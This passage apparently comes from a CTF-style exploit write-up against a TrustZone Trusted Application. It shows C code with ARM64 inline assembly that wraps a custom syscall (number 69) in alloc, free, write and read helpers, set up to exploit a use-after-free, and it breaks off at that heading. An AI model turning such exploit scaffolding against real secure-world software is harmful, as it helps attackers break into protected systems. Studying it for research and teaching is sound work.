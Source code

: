 ## Exploitation

### syscall
After the environment setup, we can proceed to exploit the vulnerability. For this, in the TA, we implement functions to work with the corresponding operations in `syscall_sas`:
```c
static uint64_t syscall_sas(uint64_t op, uint64_t idx, void*buf, size_t len)
{
  uint64_t ret = 0;

  asm volatile (
    "mov x0, %[op]\n"
    "mov x1, %[idx]\n"
    "mov x2, %[buf]\n"
    "mov x3, %[len]\n"
    "mov x8, #69\n"
    "svc #0\n"
    "mov %[ret], x0\n"
    : [ret] "=r" (ret)
    : [op] "r" (op), [idx] "r" (idx), [buf] "r" (buf), [len] "r" (len)
    : "x0", "x1", "x2", "x3", "x8"
  );

  return ret;
}

static uint64_t sas_alloc(uint64_t idx, size_t len)
{
  return syscall_sas(1, idx, NULL, len);
}

static uint64_t sas_free(uint64_t idx)
{
  return syscall_sas(2, idx, NULL, 0);
}

static uint64_t sas_write(uint64_t idx, const uint8_t* buf, size_t len)
{
  return syscall_sas(3, idx, buf, len);
}

static uint64_t sas_read(uint64_t idx, uint8_t* buf, size_t len)
{
  return syscall_sas(4, idx, buf, len);
}
```

### use-after-free
